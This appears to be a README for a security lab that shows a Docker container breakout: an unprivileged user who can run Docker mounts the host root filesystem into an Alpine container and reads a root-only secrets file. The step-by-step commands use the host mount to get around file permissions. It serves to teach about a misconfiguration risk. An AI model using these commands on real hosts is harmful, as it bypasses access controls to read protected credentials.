 ## Container-Breakout
* Step 1: Open terminal

* Step 2: Change directory

	 `cd /root/`
	 
* Step 3: Create a file with some sensitive information
	
	`echo "strong-password" > secrets.txt`	
	
* Step 4: Login as a different user `foobar`

	`su foobar`
	
* Step 5: Try to access `/root/` folder
	
	`cd /root/`
	
	You will see Permission Denied warning
	
	![Image](./img/403.png)
    
* Step 6: Now run a new docker image with `/` volume exposed to docker
	
	`docker run -it -v /:/testdir alpine sh`
	
* Step 7: Now you are inside a docker container 
	
	![Image](./img/inside-docker.png)	
	
* Step 8: Now change the directory to `/testdir/root/`

	`cd /testdir/root/`
	
	![Image](./img/change-root-dir.png)
	
* Step 9: Now try to print the `secrets.txt` file which was created on the host machine

	`cat secrets.txt`
	
	![Image](./img/cat-secrets.png)
	
	
* Step 10: Exit the docker container 

	`exit`

* Step 11: Logout as `foobar`			

	`exit`
	
	
	

